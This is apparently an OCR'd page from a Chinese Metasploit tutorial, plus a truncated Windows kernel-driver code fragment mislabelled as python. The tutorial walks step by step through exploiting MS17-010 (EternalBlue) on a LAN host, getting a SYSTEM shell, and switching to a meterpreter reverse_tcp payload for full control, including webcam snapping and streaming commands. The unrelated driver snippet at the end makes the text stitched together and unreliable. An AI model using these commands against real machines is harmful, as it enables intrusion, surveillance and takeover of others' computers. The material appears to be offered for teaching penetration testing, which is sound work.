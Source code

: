 webcam_list-查看摄像头列表
webcam_snap-拍摄一张照片
webcam_stream-开始摄像监控
当然这些命令不是都能成功执行的，好多会被杀软查杀，还有好多需要系统权限，这个后面的meterpreter后渗透专题会继续深入。
### 3.6实战练习
上文介绍了metasploit大体的结构和简单的用法，现在我们利用所学的知识对一台有漏洞的主机进行测试攻击：
任务：已知局域网中的几台主机都存在ms17010漏洞，请利用msf进行攻击！！
首先用nmap对机房局域网进行了扫描(当然可以利用msf的辅助模块进行扫描的）：


可以看出，开了445端口的主机都存在漏洞，现在对192.168.1.35这台主机进行攻击，当然局域网中的主机都存在漏洞是已知条件，如果不知道主机是否存在ms17010这个漏洞，需要先利用辅助模块中的的auxiliary/scanner/smb/smb_ms17_010来检验是否存在漏洞。此步先跳过。
比如我们现在要使用ms17010的exp，就搜索：
Search cve：2017 type：exploit platform：windows
结果如下图所示，找到了ms17010的对应模块：


完整图在下面：

利用ms17010对win7主机实施入侵：
上面我们找到了ms17010的攻击模块，那就直接来用吧！
命令：use exploit/windows/smb/ms17_010_eternalblue（命令输入时可按tab快速填充）

现在已经进入了exploit攻击模块，先查看一下设置项：
Show options

这里有一些参数不用管，只需要知道rhost填写目标ip地址就行。
命令：set rhost 目标ip

然后在输入命令：run或exploit就行啦！

可以看到返回了目标机的cmd shell而且权限很高，因为这个攻击模块将dll链接文件注入到windows里面的spoolsv.exe进程，这是一个系统进程,所以得到的是系统权限。因为在刚才的参数设置是没有设置payload（攻击荷载），msf会默认一个shell，即bind_shell，但是bind_shell支持的命令有限，实现的功能有限，且不方便。所以，我们换meterpreter荷载来进一步攻击。
用exit命令退出刚才的shell，在kali中直接ctrl+c结束，输入命令：
set payload windows/x64/meterpreter/reverse_tcp
（payload种类很多，最新版msf的payloads有500多个，可使用show  payload命令来查看，你可以根据不同系统而选择。我的电脑是64位的，所以我选择这个payload。）
1.set lhost 本地ip地址
2.set lport 本地监听地址（可不填，默认为4444）
3.run（exploit）

可以看出攻击成功，可以完全的控制目标主机了。
在meterpreter会话中执行ifconfig查看目标主机ip：


这只是一次很简单的利用metasploit框架进行的渗透测试，算是基础中的基础了，掌握了这些才是踏过metasploit的初级门槛，真正的实际用法和高级用法以后会讲到。

```python   
#include <ntddk.h>        //标准驱动头文件

//设备名称 比如C盘对应的设备名：\Device\HarddiskVolume3
#define DEVICE_NAME L"\\device\\ntmodeldrv"    

//用户可见驱动名称 类似C盘
#define LINK_NAME L"\\dosdevices\\ntmodeldrv"  
#define IOCTRL_BASE 0x800          // 0x000-0x7FF被微软占用

#define MYIOCTRL_CODE(i) \
   CTL_CODE(FILE_DEVICE_UNKNOWN, IOCTRL_BASE+i, METHOD_BUFFERED,FILE_ANY_ACCESS)

#define CTL_HELLO MYIOCTRL_CODE(0)
#define CTL_PRINT MYIOCTRL_CODE(1)
#define CTL_BYE MYIOCTRL_CODE(2)

NTSTATUS DispatchCommon(PDEVICE_OBJECT pObject, PIRP pIrp) //释放IRP
{
   pIrp->IoStatus.Status = STATUS_SUCCESS;                  
   pIrp->IoStatus.Information = 0;      //返回R3，不再往下发，过滤驱动会继续下发

```